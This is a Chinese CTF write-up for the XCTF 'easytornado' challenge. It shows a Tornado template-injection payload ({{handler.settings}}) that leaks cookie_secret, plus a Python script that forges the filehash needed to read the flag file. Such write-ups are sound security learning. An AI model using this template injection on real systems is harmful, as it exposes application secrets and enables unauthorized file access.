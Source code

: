 ![image-20220626124921471](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206261249527.png?x-oss-process=hzy)

但是有注入被过滤了

这个时候注意利用hint

```
md5(cookie_secret+md5(filename))
//  该表达式的结果应该是对应着 URL 中的 filehash 参数的值。我们已经知道了存放 flag 的文件名，那么我们只需要得到相应的 filehash 参数的值，就可以构造 URL 进而得到 flag，观察该表达式，filename 是我们已知的，所以我们只要知道 cookie_secret 所对应的值，便可以计算出该表达式的结果。
```

> 在 Tornado 中，通过在 tornado.web.Application 中添加 cookie_secret 参数，我们就可以使用 set_secure_cookie() 和 get_secure_cookie() 函数来发送和取得浏览器的 cookies ，借助该参数可以对 cookie 进行简易加密以防止 Cookie 被恶意篡改。

框架漏洞不拿手，参考别人wp才做出来

构造payload

```
msg={{handler.settings}} 即可获取到 cookie_secret
```

![image-20220626125307468](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206261253486.png?x-oss-process=hzy)

既然 filename 和 cookie_secret 我们都知道了，接下来我们就可以借助 Python 脚本来计算相应表达式的值

```
#导入hashlib模块
import hashlib

#获取一个md5加密算法对象
md = hashlib.md5()
#用提供的 字节串 更新此哈希对象(hash object)的状态。
md.update('/fllllllllllllag'.encode('utf-8'))
#NOTICE：
#update()方法需要接收的参数是一个字节对象。
#向对象中传入字节串时，必须为编码类型。可以使用字符串前b' '的方法或使用.encode('UTF-8')的方法，使字符串变为bytes类型

#以十六进制数字字符串的形式返回摘要值（哈希函数计算后生成的值就叫做摘要或者摘要值）
fact = md.hexdigest()

md = hashlib.md5()
md.update(('5d1bf6b4-a2ca-413b-a504-87c986ed69ec' + fact).encode('utf-8'))
print(md.hexdigest())
```

![image-20220626125552423](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206261255479.png?x-oss-process=hzy)

参考：

[(43条消息) XCTF系列 // Web | easytornado_Ga1axy_z的博客-CSDN博客](https://blog.csdn.net/qq_45805420/article/details/107876871)

[(43条消息) python3 hashlib.md5()_update()_digest()_hexdigest().py_学无止境慢慢来的博客-CSDN博客_hashlib.md5().update](https://blog.csdn.net/weixin_42193179/article/details/104520896)
